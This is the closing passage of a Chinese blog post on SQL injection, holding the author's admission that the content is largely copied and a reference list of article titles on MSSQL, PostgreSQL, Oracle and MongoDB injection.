本文呢也只是简单总结一下，copy rate is 99.9999999999…%（我也不想啊，太菜了，遇到不会的知识，以目前的我根本没能力写出高质量的文章（也就是用自己的语言以及思考去写），只得抄袭众多大佬的，但希望这些知识可以变成自己的，不论如何我都会努力提升自己，在日后提升文章质量（毕竟只有这样，我认为才学的深刻吧），本文也会一直更新（难免实战遇到来更新一下）。
加油！！
0x07 参考文章
mssql参考
MSSQL 注入与提权方法整理
Mysql 隐式类型转换
MSSQL 注入学习笔记
MSSQL注入环境搭建
渗透测试之基础篇：Microsoft SQL Server手注之联合查询注入 --靶场实战参考
postgresql参考
postgresql注入
[PostgreSQL]
Oracle参考
Oracle SQL注入学习 --含提权
关于学习Oracle注入
[Oracle注入]
从零开始的Oracle注入学习
【实战】Oracle注入总结
MongoDB参考
NoSQL注入之MongoDB
MongoDB注入
MongoDB 注入指北 丨
http://drops.wooyun.org/tips/3939